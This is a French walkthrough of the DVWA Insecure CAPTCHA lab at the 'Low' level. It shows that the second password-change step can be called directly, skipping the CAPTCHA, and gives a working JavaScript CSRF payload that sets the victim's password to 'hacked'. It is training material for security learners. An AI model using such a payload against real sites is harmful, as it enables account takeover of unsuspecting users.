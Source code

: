 # Niveau "Low"

Modifions tout d'abord notre mot de passe et analysons les requêtes effectuées par l’application :

![](../../../../.gitbook/assets/caa89caa4d6675f17d676c7e5791e2c8.png)

Une seconde page nous indique que le Captcha est valide et que nous devons confirmer nos changements :

![](../../../../.gitbook/assets/740d28ce5ec493bbd45d071d440d5e88.png)

Le changement du mot de passe s'effectue en deux steps. La première est la vérification du Captcha :

![](../../../../.gitbook/assets/70ca6ff2462cfc502d65ee3e3e49173c.png)

La seconde est la confirmation des changements demandés par l'utilisateur :

![](../../../../.gitbook/assets/35bb5e8fdabe1f70e680ebaf1cd78aba.png)

On identifie rapidement le contournement du Captcha ici car la seconde requête ne nécessite aucunement la bonne exécution de la première. Nous pouvons alors exploiter ce biais afin d'effectuer une attaque CSRF afin de changer le mot de passe de la victime \(malgré la présence du Captcha\) :

```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", 'http://192.168.56.203/vulnerabilities/captcha/', true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.withCredentials = true;

xhr.onreadystatechange = function() {
  if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
    console.log(xhr.response);
  }
}

xhr.send("step=2&password_new=hacked&password_conf=hacked&Change=Change");
```

{% hint style="info" %}
Pour l'exploitation de cette vulnérabilité, il suffit de reprendre le même principe que lors d'une attaque CSRF classique \(faire visiter un site malicieux à la victime, s'appuyer sur une faille XSS, etc\)
{% endhint %}



